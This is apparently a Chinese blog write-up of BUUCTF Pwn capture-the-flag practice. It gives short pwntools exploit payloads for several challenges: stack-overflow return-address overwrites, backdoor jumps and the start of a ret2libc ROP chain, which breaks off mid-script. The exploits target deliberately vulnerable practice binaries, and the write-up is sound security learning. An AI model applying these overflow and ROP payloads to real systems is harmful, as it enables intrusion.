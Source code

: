```yaml
---
title: BUUCTF Pwn 练习记录
date: 2019-12-14 21:46:20
tags:
  - 整数溢出
  - 栈漏洞
  - fsb
  - 堆漏洞
categories:
  - 二进制安全
---
```


从今天起，我也是 Pwn 🐕 了。



## Part I

### test_your_nc

nc 直接连，`cat flag`。

### rip

栈溢出，可直接覆盖返回地址，注意 64 位：

```python
payload = 'a'*(0xf+8) + p64(elf.symbols['fun'])
s(payload)
```

### warmup_csaw_2016

和上题其实一样，程序中存在后门，直接返回过去。

```python
payload = 'a'*(0x40+8) + p64(0x40060d)
s(payload)
```

### pwn1_sctf_2016

直接运行几次或者源码审计可以发现是将输入的 `I` 替换为 `you`，其余的其实和上面一样：

```python
payload = 'I'*(0x3c // 3)+'a'*4+p32(elf.symbols['get_flag'])
sl(payload)
```

### ciscn_2019_c_1

开启了 NX 保护，并且有未限制长度的 `gets`，基本上可以确定是 ROP 栈溢出。IDA 搜一下 string，可以发现有 libc 可以用，考虑 ret2libc。

```python
pop_rdi = 0x400c83

def send(payload):
	ru('!\n')
	sl('1')
	ru('ed\n')
	sl(payload)

payload = flat('a'*0x58,pop_rdi,elf.got['__libc_start_main'],elf.plt['puts'],elf.sym['main'])
send(payload)

ru('@\n')
```